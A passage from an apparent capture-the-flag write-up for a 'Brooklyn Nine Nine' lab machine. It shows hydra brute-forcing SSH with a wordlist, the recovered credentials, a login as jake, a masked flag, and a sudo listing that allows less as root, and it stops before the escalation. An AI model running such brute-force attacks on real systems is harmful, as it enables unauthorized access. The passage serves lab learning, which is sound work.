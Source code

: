 We now have three possible users, so we can try brute-forcing the `ssh` service with those users.
## Gaining a Shell

Let's start with the user `Jake` that we know that holds a weak password, i will be using `hydra` for this purpose.

```bash
❯ hydra -l jake -P /usr/share/seclists/Passwords/probable-v2-top12000.txt ssh://10.10.193.10
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-05 09:34:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 12645 login tries (l:1/p:12645), ~791 tries per task
[DATA] attacking ssh://10.10.193.10:22/
[22][ssh] host: 10.10.193.10   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-05 09:34:51
```

Less than 5 seconds and we found valid credentials: `jake:987654321`, so let's get in via `ssh`.

```bash
❯ ssh jake@10.10.193.10
jake@10.10.193.10's password: 
Last login: Sun Jan  5 07:42:24 2025 from 10.11.116.52
jake@brookly_nine_nine:~$ whoami
jake
```

## Shell as Jake

Once inside, we can see the `user.txt` flag in the `holt` user home directory.

```bash
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11*****052e40********a060c23ee
```

Rapidly i found that the user `jake` is allowed to use the binary `less` as `root` without the requirement of a password.

```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
